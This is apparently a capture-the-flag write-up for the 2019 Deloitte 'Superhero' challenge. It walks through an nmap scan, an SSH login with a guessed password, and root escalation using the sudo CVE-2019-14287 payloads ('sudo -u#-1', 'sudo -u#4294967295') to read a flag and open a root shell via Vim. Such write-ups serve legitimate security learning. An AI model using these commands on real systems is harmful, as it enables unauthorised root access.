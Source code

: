 ```yaml
---
title: Deloitte CTF Quals 2019: Superhero
slug: deloitte-superhero
date: 06/11/2019 05
---
```


*Superhero* 🦸 was a task labelled infrastructure and worth 75 points. It is
a challenge that mostly revolves around [the recent `sudo` CVE](https://resources.whitesourcesoftware.com/blog-whitesource/new-vulnerability-in-sudo-cve-2019-14287).

![Task Description](/assets/superhero/intro.png)

Let's start with a quick nmap scan:

```
$ nmap 3.9.190.45
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-06 15:34 GMT
Nmap scan report for ec2-3-9-190-45.eu-west-2.compute.amazonaws.com (3.9.190.45)
  Host is up (0.0038s latency).
  Not shown: 990 closed ports
  PORT     STATE    SERVICE
  22/tcp   open     ssh
  25/tcp   filtered smtp
  53/tcp   filtered domain
  135/tcp  filtered msrpc
  139/tcp  filtered netbios-ssn
  445/tcp  filtered microsoft-ds
  2000/tcp open     cisco-sccp
  2222/tcp open     EtherNetIP-1
  5060/tcp open     sip
  8008/tcp open     http

Nmap done: 1 IP address (1 host up) scanned in 1.27 seconds
```

We notice something unusal: `EtherNetIP-1` on port `2222`. This is a fairly
popular SSH port. Let's try:

```
$ ssh -p2222 geo@3.9.190.45
###############################################################
  Bruce's SSH Server. Login as bruce with the usual password!
###############################################################
geo@3.9.190.45's password:
```

So we know that the user is `bruce`. From the name of the challenge, we can
imagine that it is a reference to Bruce Wayne, the real name of Batman! So
let's try `batman` as password:

```
$ ssh -p2222 bruce@3.9.190.45
###############################################################
    Bruce's SSH Server. Login as bruce with the usual password!
###############################################################
bruce@3.9.190.45's password:
bruce@eb2037c7a5a1:~$
```

Well, I guess that even a superhero might not be aware of the best practices
when it comes to passwords...

From there, we locate the `flag.txt` file, but we can't read it.

```
bruce@eb2037c7a5a1:~$ ls -al /
total 84
[...]
--w-------   1 root root   20 Oct 23 13:56 flag.txt
[...]
bruce@eb2037c7a5a1:~$
```

We need to get root permissions. Let's see if we can use `sudo`:

```
bruce@eb2037c7a5a1:/$ cat /etc/sudoers
bruce ALL = (ALL, !root) /usr/bin/vim
bruce@eb2037c7a5a1:/$
```

We can run `/usr/bin/vim`, but not as `root`:

```
bruce@eb2037c7a5a1:/$ sudo /usr/bin/vim /flag.txt
Sorry, user bruce is not allowed to execute '/usr/bin/vim /flag.txt' as root on eb2037c7a5a1.
bruce@eb2037c7a5a1:/$
```

At this point, one of my teammates told me that the recent sudo vulnerability
should work. I gave it a try:

```
bruce@eb2037c7a5a1:/$ sudo -u#-1 /usr/bin/vim /flag.txt
```

It worked! We got our flag! We can even use the `:terminal` command in Vim
and enjoy a root shell.

![Task Description](/assets/superhero/root.png)

For the record, the other `sudo` payload also worked:

```
bruce@eb2037c7a5a1:/$ sudo -u#4294967295 /usr/bin/vim /flag.txt
```

